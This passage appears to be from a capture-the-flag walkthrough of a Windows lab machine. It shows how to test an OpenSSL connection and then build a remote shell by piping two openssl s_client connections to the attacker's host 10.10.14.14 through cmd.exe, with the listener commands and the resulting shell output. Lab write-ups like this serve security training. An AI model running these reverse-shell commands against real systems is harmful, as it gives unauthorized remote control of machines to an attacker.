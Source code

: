     root@kali# ls *.pem
    cert.pem  key.pem



#### Test Connection

Now I'll test that I can connect and send data using the following:



    ethereal> quiet ( echo "test" | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 )





    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
    "test"



#### Shell

To make a shell, I'm going to use two `openssl` calls, with one piping
output into `cmd`, and the output of that piped into the other. I can
type commands into one connection and get results back on the other. For
more details, check out [this post, OpenSSL ==
NC](https://blog.inequationgroup.com/openssl-nc/).

I'll start two `openssl` servers just as above, and then run the
following:



    ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"



Note that the `start` is really important here as that opens this in a
new process so that it stays running after the web request times out.

The listener on 73 doesn't show anything, but on 136, I get:



    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv>



If I type into the 73 listener, I get results (including the command
typed) in the 136 listener:



    root@kali# rlwrap openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
    whoami


